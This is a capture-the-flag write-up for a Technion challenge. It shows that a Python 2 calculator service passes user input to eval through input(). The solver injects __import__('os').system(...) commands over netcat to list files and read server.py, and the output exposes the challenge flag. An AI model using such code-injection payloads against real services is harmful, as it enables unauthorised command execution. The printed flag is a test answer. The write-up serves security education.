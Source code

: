 # My first calculator
Category: Miscellaneous

## Description
> I created this amazing calculator in python 2, take a look and tell me what you think

## Solution

We receive access to a Python 2 calculator:
```console
root@kali:/media/sf_CTFs/technion/My_first_calculator# nc ctf.cs.technion.ac.il 4012
Enter calculation: 1+1
 2
```

In Python 2 there are two methods to read input from the user: `input` and `raw_input`. This is what the docs say about `input`:

> Equivalent to eval(raw_input(prompt)).
> 
> Warning
> 
> This function is not safe from user errors! It expects a valid Python expression as input; if the input is not syntactically valid, a SyntaxError will be raised. Other exceptions may be raised if there is an error during evaluation. (On the other hand, sometimes this is exactly what you need when writing a quick script for expert use.) 

So if we are lucky, the calculator is using `input`, allowing us to evaluate Python expressions.

Let's try it:
```console
root@kali:/media/sf_CTFs/technion/My_first_calculator# nc ctf.cs.technion.ac.il 4012
Enter calculation: __import__('os').system('ls')
server.py
 0
```

Let's read `server.py`:

```console
root@kali:/media/sf_CTFs/technion/My_first_calculator# nc ctf.cs.technion.ac.il 4012
Enter calculation: __import__('os').system('cat server.py')
import sys
# cstechnion{d0nt_us3_1nput_in_pyth0n_2}

try:
        while 1:
                print("Enter calculation: "),
                sys.stdout.flush()
                calculation = input()
                print(calculation)
except:
        print("calculator turning off...")
        sys.stdout.flush()
 0
```

The flag: `cstechnion{d0nt_us3_1nput_in_pyth0n_2}`. Don't use Python 2 either.
